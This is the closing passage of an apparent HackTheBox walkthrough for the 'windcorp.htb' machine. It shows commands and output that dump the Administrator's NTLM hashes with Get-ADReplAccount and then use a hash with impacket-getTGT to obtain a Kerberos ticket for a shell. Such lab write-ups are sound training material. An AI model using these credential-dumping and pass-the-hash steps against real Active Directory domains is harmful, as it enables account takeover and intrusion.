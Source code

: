 It appears this user can use `Get-ADReplAccount` to retrieve NTLM hashes for users. I found some cheatsheetys for this command online as well:

{% embed url="https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Get-ADReplAccount.md" %}

Using this, we can retrieve the hash of the administrator.

```
PS C:\> Get-ADReplAccount -SamAccountName "Administrator" -Server "windcorp.htb"
<TRUNCATED>
SystemAclAutoInherited, DiscretionaryAclProtected, SelfRelative
Owner: S-1-5-21-3783586571-2109290616-3725730865-512
Secrets
  NTHash: <REDACTED>
  LMHash: 
  NTHashHistory: 
    Hash 01: <REDACTED>
    Hash 02: <REDACTED>
    Hash 03: <REDACTED>
  LMHashHistory: 
    Hash 01: <REDACTED>
    Hash 02: <REDACTED>
  SupplementalCredentials:
    ClearText: 
    NTLMStrongHash: <REDACTED>
<TRUNCATED>
```

### Kerberos Ticket -> Shell

Using this NTLM hash, we have to request for a Kerberos ticket because NTLM hashes have been disabled.&#x20;

```
$ impacket-getTGT -hashes b3ff8d7532eef396a5347ed33933030f:b3ff8d7532eef396a5347ed33933030f windcorp.htb/administrator@windcorp.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in administrator@windcorp.htb.ccache

$ export KRB5CCNAME=administrator@windcorp.htb.ccache
```

Then, we can use this ticket to get a shell using this ticket:

<figure><img src="../../../.gitbook/assets/image (3233).png" alt=""><figcaption></figcaption></figure>

Rooted! Although hard, this machine had steps that were simple if the enumeration was done properly. Great machine!&#x20;
